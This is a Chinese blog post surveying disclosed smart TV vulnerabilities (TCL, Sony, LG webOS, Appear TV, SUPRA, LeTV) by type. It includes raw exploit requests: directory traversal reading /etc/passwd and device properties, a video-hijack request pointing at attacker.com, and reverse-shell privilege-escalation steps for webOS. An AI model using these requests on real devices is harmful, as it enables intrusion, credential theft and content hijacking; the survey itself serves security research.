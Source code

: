 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [delikely.github.io](https://delikely.github.io/2021/04/10/%E6%99%BA%E8%83%BD%E7%94%B5%E8%A7%86%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/)

> 智能电视漏洞汇总最近在测试某大厂的智能电视中遇到了不瓶颈，毕竟是第一次专注的研究智能电视，对电视的了解还不够深。

最近在测试某大厂的智能电视中遇到了不瓶颈，毕竟是第一次专注的研究智能电视，对电视的了解还不够深。挖不动烦躁的时候，就回头想想曾经看过的智能电视的漏洞，记忆都很零散，今天把智能电视曾曝出的漏洞做个汇总，看看大佬们都有哪些奇妙的思路。

### [](#命令注入漏洞 "命令注入漏洞")命令注入漏洞

#### [](#某电视名称命令注入 "某电视名称命令注入")某电视名称命令注入

[某电视](https://www.netsparker.com/blog/web-security/hacking-smart-tv-command-injection/)名称重命名使用反引号可注入任意命令。文章中并没有没有说细节吗，猜测是前台设置的电视名称，后端应该是使用系统命令将电视名称设置成 hostname ，由于没有过滤从而造成了任意命令执行。

![](https://delikely.github.io/2021/04/10/%E6%99%BA%E8%83%BD%E7%94%B5%E8%A7%86%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/smart_tv_sleeppng.jpg)

#### [](#乐视电视利用-UPnP-安装应用 "乐视电视利用 UPnP 安装应用")乐视电视利用 UPnP 安装应用

18 年 GeekPwn 上的[乐视电视](https://www.sohu.com/a/279830384_609380)任意应用安装也比较有意思。利用 UPnP 提供的下载服务下载并安装应用，之前并没有想到还有这种操作。现在电视使用的大多使用第三方的投屏服务，这种骚操作的机会少了。

发现 UPnP 协议中通过 XML 文件声明告知手机控制端自身提供原用于遥控器应用更新下载服务可被滥用，通过控制端连接电视后即可发送 XML Message 的方式请求 DownLoadFile 的服务，电视内部收到服务请求未进行有效过滤即进行下载 APK 动作。下载 APK 应用后，发送消息请求电视 DLNA 服务向电视 EUI 系统发送特定内容广播。利用电视广播服务，调用系统内部静默安装服务，并对 Activity 进行调用。

### [](#目录遍历漏洞 "目录遍历漏洞")目录遍历漏洞

#### [](#TCL-目录遍历-CVE-2020-27403 "TCL 目录遍历(CVE-2020-27403)")TCL 目录遍历 (CVE-2020-27403)

[TCL 电视](https://sick.codes/extraordinary-vulnerabilities-discovered-in-tcl-android-tvs-now-worlds-3rd-largest-tv-manufacturer/) 7989 开放了 web 服务，未授权用户能够访问电视中的文件。

![](https://delikely.github.io/2021/04/10/%E6%99%BA%E8%83%BD%E7%94%B5%E8%A7%86%E6%BC%8F%E6%B4%9E%E6%B1%87%E6%80%BB/tcl-directory-file-structure-vulnerability.png)

#### [](#Sony-Smart-TV-目录遍历（CVE-2019-10886） "Sony Smart TV 目录遍历（CVE-2019-10886）")Sony Smart TV 目录遍历（CVE-2019-10886）

索尼智能电视 “图片共享” 应用没有限制目录，从而可以读取任意文件。

```
root@kali:~
Trying 192.168.1.102...
TCP_NODELAY set
Connected to 192.168.1.102 (192.168.1.102) port 10000 (
> GET /contentshare/image/default.prop HTTP/1.1
> Host: 192.168.1.102:10000 
> User-Agent: curl/7.58.0
> Accept: /
>
< HTTP/1.1 200 OK
< Connection: close
< Content-Length: 591
< Content-Type: application/octet-stream
<



ro.secure=1
security.perf_harden=1
ro.allow.mock.location=0
ro.debuggable=0 ro.zygote=zygote32
dalvik.vm.image-dex2oat-Xms=64m
dalvik.vm.image-dex2oat-Xmx=64m
dalvik.vm.dex2oat-Xms=64m dalvik.vm.dex2oat-Xmx=512m
ro.dalvik.vm.native.bridge=0 debug.atrace.tags.enableflags=0 



ro.bootimage.build.date=2016? 11? 14? ??? 15:34:56 JST ro.bootimage.build.date.utc=1479105296     ro.bootimage.build.fingerprint=Sony/BRAVIA_ATV2_PA/BRAVIA_ATV2:6.0.1/MMB29V.S50/1.6.0.06.14.0.00:user/release-keys persist.sys.usb.config=none

Closing connection 0
```

#### [](#Appear-TV-目录遍历（CVE-2018-7539） "Appear TV  目录遍历（CVE-2018-7539）")Appear TV 目录遍历（CVE-2018-7539）

Appear TV XC5000 、XC5100 电视的 “Maintenance Center” 服务对外开放了 WEB 服务，监听在 8088 端口。

```
GET /../../../../../../../../../../../../etc/passwd
Host: x.x.x.x:8088
User-Agent: curl/7.56.1
Accept: */*
```

```
HTTP/1.1 200 OK
Content-Length: 1110
Content-Type: text/plain; charset=utf-8
Cache-Control: max-age=3600
Server: fuzzd/0.1.1

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
```

### [](#权限提升 "权限提升")权限提升

#### [](#LG-webOS-OS-任意文件覆盖提权 "LG webOS OS 任意文件覆盖提权")[LG webOS OS](https://blog.recurity-labs.com/2021-02-03/webOS_Pt1.html) 任意文件覆盖提权

**任意文件覆盖**：luna-send-pub 命令调用 downloadmanager 服务可以下载文件到本地的任意位置，且文件属主为 root 。

系统中的 /etc/luna-services2/ls-hubd.conf 配置文件中定义了可执行脚本，脚本在点数开机的之后会被 Root 调用指令。

```
[Dynamic Services]
ExecPrefix=/usr/sbin/setcpushares-ls2
LaunchTimeout=300000
```

于是，可以通过覆盖 ls-hubd.conf 配置文件，将 ExecPrefix 的值设定为自定义脚本所在的路径。当电视重启之后，就能够提升到 Root 权限了。

1.  在本地创建 ls-hubd.conf 文件；
2.  在电视中编写反弹 shell 脚本；
3.  使用 luna-send-pub 下载 ls-hubd.conf 覆盖原有文件；
4.  本地监听，然后重启服务之后就拿到了具备 Root 权限了 Shell 了。

### [](#拒绝服务漏洞 "拒绝服务漏洞")拒绝服务漏洞

#### [](#Sony-BRAVIA-电视-TCP-泛洪攻击（CVE-2019-11890） "Sony BRAVIA 电视  TCP 泛洪攻击（CVE-2019-11890）")Sony BRAVIA 电视 TCP 泛洪攻击（CVE-2019-11890）

Sony 电视泛洪攻击电视会重启。原来电视也怕 TCP 泛洪攻击，还以为只有像工控的这种低性能设备重启的概率会高一些。

此外，还有不少其他形式的 DOS，如缓冲器溢出等，由于没有公布细节，这里就不讲了。

### [](#其他漏洞 "其他漏洞")其他漏洞

#### [](#ADB "ADB")ADB

*   CVE-2019-6005：[KDDI Smart TV Box](http://jvn.jp/en/jp/JVN17127920/index.html) 默认在 5555 端口开放了 ADB。
*   CVE-2019-9871：[Jector Smart TV FM-K75](https://github.com/cvereveal/CVEs/tree/master/CVE-2019-9871) 默认在 5555 端口开放了 ADB，且权限为 root。

#### [](#SUPRA智能云电视视频劫持漏洞（CVE-2019-12477） "SUPRA智能云电视视频劫持漏洞（CVE-2019-12477）")SUPRA 智能云电视视频劫持漏洞（CVE-2019-12477）

[SUPRA](https://www.freebuf.com/vuls/208520.html) 电视开放了 80 端口，提供的功能包含自定义的投屏服务，但没有验证用户和资源的合法性，于是未授权用户就可以播放任意内容。

向电视设备插入任意视频播放的构造请求如下。

```
GET /remote/media_control?action=setUri&uri=http://attacker.com/fake_broadcast_message.m3u8 HTTP/1.1
Host: 192.168.1.155
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

现在，电视开放的端口还挺多的。尤其是现在有的家电厂商希望把智能电视打造为智能家居的中枢，肩负的任务也越来越多，但不少的服务没有基本的授权验证。

#### [](#Sony-Smart-TV-信息泄露 "Sony Smart TV 信息泄露")Sony Smart TV 信息泄露

Sony Smart TV 在 10000 端口开放了 WEB 服务，未授权用户访问 /contentshare 页面，可以获取无线网络的明文密码。

```
root@kali:~
{"result":[{"ssid":"DIRECT-GD-BRAVIA","keyType":"","key":"8362tbwX","deviceName":"","url":"http:\/\/192.168.49.1","touchPadRemote":"notSupported"}],"id":80}
```

### [](#总结 "总结")总结

智能电视形似一台有着巨大屏幕的手机，与手机不同的是智能电视作为服务端提供各类服务。由于电视厂家有各自生态的考量，应用五花八门，分析纰漏出来的漏洞，不少是权限问题，各种服务的认证问题还是重中之重。从 CVE 、CNVD 中的数据来看，拒绝服务最多，然后是目录遍历、命令执行，最后是信息泄露、提权等。

首发于：[火线 Zone](https://mp.weixin.qq.com/s/trYEzCCfd8R7ppWVs-Zp9Q)